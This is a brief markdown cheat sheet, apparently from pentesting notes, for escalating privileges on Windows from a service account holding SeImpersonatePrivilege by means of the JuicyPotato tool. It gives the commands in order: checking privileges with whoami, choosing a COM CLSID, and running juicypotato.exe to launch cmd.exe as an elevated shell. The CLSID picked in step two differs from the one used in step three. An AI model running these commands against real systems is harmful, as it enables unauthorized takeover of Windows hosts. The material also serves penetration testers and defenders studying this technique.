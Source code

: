 # SeImpersonatePrivilege: Privilege Escalation

We need to have a shell access to a service account, e.g., `NT AUTHORITY\SERVICE`. 

1. Check if the compromised account has `SeAssignPrimaryTokenPrivilege` and/or `SeImpersonatePrivilege` privileges enabled

        whoami /all

2. Pick a [CLSID](https://ohpe.it/juicy-potato/CLSID/)

        {555F3418-D99E-4E51-800A-6E89CFD8B1D7}

3. Pop an elevated shell

        juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}

## Resourcse

* https://hunter2.gitbook.io/darthsidious/privilege-escalation/juicy-potato
* https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/